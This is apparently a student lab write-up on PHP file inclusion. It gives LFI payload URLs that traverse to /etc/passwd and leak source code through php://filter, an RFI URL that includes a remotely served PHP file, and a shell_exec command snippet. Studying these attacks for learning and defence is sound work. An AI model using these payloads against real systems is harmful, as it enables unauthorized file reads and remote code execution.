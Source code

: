# File Inclusion Vulnerabilities

This lab focuses on how to exploit with file inclusion. In the assignment for this we created a php server. Using this, were were able to pass commands and traverse through directories.

#### **LFI**

**Helpful Commands:**

**Traversing to a file**

```
http://example.com/index.php?page=../../../etc/passwd
```

```
http://example.com/index.php?page=/etc/passwd
```

Displaying source code of index.php

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```

\*\* This will be in base64, use cyberchef to decode

#### RFI

```
http://example.com/index.php?page=http://127.0.0.1:8000/rfi.php
```

This is only possible if the php config allows remote urls.

#### PHP Server Commands

Setting up a server

```
php -S 127.0.0.1:9000
```

allow_\_url\_include must be on in the config for RFI._

Executing commands on php

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

```php
<?php
$output = shell_exec('ls -als');
echo "<pre>$output</pre>";
?>
```
